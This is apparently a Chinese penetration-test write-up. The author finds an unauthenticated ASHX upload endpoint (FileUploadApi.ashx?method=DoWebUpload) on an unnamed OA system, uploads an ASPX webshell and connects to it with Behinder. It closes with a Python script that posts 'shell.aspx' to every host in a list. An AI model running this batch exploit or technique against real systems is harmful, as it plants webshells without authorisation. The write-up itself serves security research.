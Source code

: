#  记一次某OA渗透测试有意思的文件上传漏洞挖掘经历以及分析   
1674701160110592  亿人安全   2025-01-06 09:17  
  
#   
#   
# 原文首发在：先知社区  
  
https://xz.aliyun.com/t/16959  
# 登陆  
  
我这边首先找到的是一个文件上传的登陆框  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmba53miaw7D93HgaibEro3WvzNeBic7C8ic6B5s56tPb7MAdUGliaxtZqQWEA/640?wx_fmt=png&from=appmsg "")  
  
测试了一下sql注入之类的，发现没有  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmb0fT0a9P8LcxmGJbNXnVYR1wfPvPdTKf9uP14pAoY4TYgj609q8QCcw/640?wx_fmt=png&from=appmsg "")  
# 目录扫描  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbW8BITPiaaXJ8LicurtfCMYGh5tM0VjGevmiboEkib1Hze3DCXIMpcPUgOQ/640?wx_fmt=png&from=appmsg "")  
  
看到api爆出200 ok的那一刻我的心情是激动的，感觉要有很多接口泄露了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbnZnH8T4qEibJBzew9wBoHphD3lGYoOLcSyw2vORVsr6GeHSLvmDxKzA/640?wx_fmt=png&from=appmsg "")  
  
一堆ashx文件加上一个UEditor的组件，ashx  
  
.ashx 文件扩展名通常用于表示 ASP.NET 处理程序（ASP.NET Handler）。ASP.NET 处理程序是一种在服务器端处理特定类型请求的代码文件。这些文件通常用于执行一些特殊的服务器任务，如图像生成、文件下载或其他动态内容的处理。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbsd87GeKLPqkBFpteKFmKpBoiah6hn1PibEF0emCdQGwMeQ7BhPMN54sw/640?wx_fmt=png&from=appmsg "")  
  
ueditor组件也有一个ashx文件，看着文件名字应该就是用来处理文件上传功能的  
  
我们访问一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbL26aOrtpPIuHyyeaia42QxiazAaib1qwsuuxtKNnvtDpLxkftG4Nf3S7g/640?wx_fmt=png&from=appmsg "")  
  
给我返回了这个消息，那么我们可以理解为这个文件应该是要传递一个参数的，但是参数是什么，我们目前还不知道  
  
我爆破了一下参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbibDYDuksTWib63erpc3I4gRABPZlvlkUItP0icBxkUYr3ZkS3O6sy9qNQ/640?wx_fmt=png&from=appmsg "")  
  
依旧是接口错误  
  
难道到手的文件上传getshell（bushi就要没了吗？  
# 查看前端源码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbfib5icvloNSVDGJ9bSBhSUiaIYrVaXuerR6FHp2MImY6A8lp4NudPHTgg/640?wx_fmt=png&from=appmsg "")  
  
查看了一下这个js源码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbfl9xwYhS2pfaFeSiaE4OvoqyEKaYk2zmgbRcruEBasicP2dRSAbcFILA/640?wx_fmt=png&from=appmsg "")  
  
一搜索就搜到了我那个文件名  
  
那么就是说可以有文件删除和文件上传两个选择，传入DoWebUpload或者DoDelete参数即可  
  
那么我们选择上传一个木马文件试试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmb3aXGvszoRMoaflibqkwdrOUrnu99tsIGVypkVLeFxkYPibCg02ichmtNQ/640?wx_fmt=png&from=appmsg "")  
  
直接就上传成功了冰蝎连接试试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbibt4owS38TAlaN4jeCjRzQKLXCnRkIblicF1PIkeUgx2RauYUfBCK8Ag/640?wx_fmt=png&from=appmsg "")  
  
直接就是getshell成功了  
# 批量脚本验证  
```
import requests
import os
os.environ["http_proxy"] = "http://127.0.0.1:7890"
os.environ["https_proxy"] = "http://127.0.0.1:7890"
def poc(url=""):
# 目标URL
    url = url+'/api/FileUploadApi.ashx?method=DoWebUpload'
    files = {
        'file': ('shell.aspx', """

        """, 'image/png')
    }

    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'null',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'keep-alive'
    }
    try:
        # 发送POST请求
        response = requests.post(url, files=files, headers=headers,timeout=5)
        # 打印返回结果
        print('Response Code:', response.status_code)
        print('Response Text:', response.text)
    except Exception as e:
        print(e)
if __name__ == '__main__':
    file_path = 'url'
    with open(file_path, 'r', encoding='utf-8') as file:
        for line in file:
            print(line.strip())  # 使用 strip() 去掉行末的换行符
            poc("http://" + line.strip())
    # poc()
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpvL1x0KKUkwseyoYGJqDmbc0EcT3aLltHGXRPclsuRtoDSGS9n0GR8rcH6wvWjGA868X5L4cbcMg/640?wx_fmt=png&from=appmsg "")  
# 小结  
  
这次感觉这个文件上传藏得还是比较深的，也是告诉自己挖掘一些漏洞的时候，千万不能放过任何一处细节，往往细节决定成败。  
  
  
